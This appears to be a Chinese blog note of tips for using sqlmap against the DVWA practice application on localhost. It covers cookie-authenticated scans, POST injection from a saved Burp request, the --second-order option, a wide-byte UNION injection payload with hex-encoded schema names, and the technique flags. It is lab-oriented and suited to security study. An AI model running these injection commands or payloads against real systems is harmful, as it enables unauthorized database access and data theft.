 ![2](https://img-blog.csdnimg.cn/20190311094049471.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0ZseV9ocHM=,size_16,color_FFFFFF,t_70)



### 技巧点

1. 要登陆的，登陆后生成cookie，sqlmap时要加上
  ```
sqlmap -u "http://127.0.0.1:8000/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=j1ro8g2ei0vcug3k37arohdd44; security=low" --batch
  ```

2. 对post请求表单式注入，可用两种方法
  - 使用burpsuite抓包，将数据包内容复制下来保存在文本中，然后使用SQLMap -r进行post注入

```
sqlmap -r \Desktop\xxx.txt --batch
```
- 直接用--data "表单参数【form data】"或--forms自动解析表单
```
sqlmap.py -u "http://127.0.0.1:8000/vulnerabilities/sqli/" --cookie="PHPSESSID=j1ro8g2ei0vcug3k37arohdd44; security=medium" --data "id=1&Submit=Submit"
```
3. 针对dvwa高安全级别下，High级别的查询提交页面与查询结果显示页面不是同一个，也没有执行302跳转的[wp ](https://www.jianshu.com/p/e263ea40fe25)
- 用`--second-order="xxxurl"`
- 使用于查询数据提交、结果显示分别在2各个不同的页面中
```
sqlmap --url="http://localhost:8001/dvwa/vulnerabilities/sqli/session-input.php" --data="id=1&Submit=Submit" --second-order="http://localhost:8001/dvwa/vulnerabilities/sqli/" --cookie="security=high; PHPSESSID=g5mep9dj1vmkjiha8qnpfpn2i7" --batch
```
 - 也可以保存文件后用第二种方法再--second
 - 这时sqli.txt文件中对应是查询数据提交时的POST数据包的内容，其中已经包含有cookie信息、以及POST请求体中的Form data数据，**所以命令中不需要单独在写**

4. 针对查询特定库/表/字段报错的=》编码绕过
> 爆表名:
> ?id=1%df%27 union select 1,2,table_name from information_schema.tables where table_schema=mydbs%23
> 发现报错。。。可能有过滤
> 那么把mydbs转成16进制:0x6d79646273 (..字符转16进制即可，要转对，有个网址16进制换是转错的。。浪费我好多时间)
> ?id=1%df%27 union select 1,2,table_name from information_schema.tables where table_schema=0x6d79646273%23

5. 设置具体sql注入技术

   --technique B 布尔盲注

   --technique E 报错注入

   --technique U union查询注入

   --technique S 堆叠注入

   --technique T 时间盲注

   --technique Q 内联查询注入
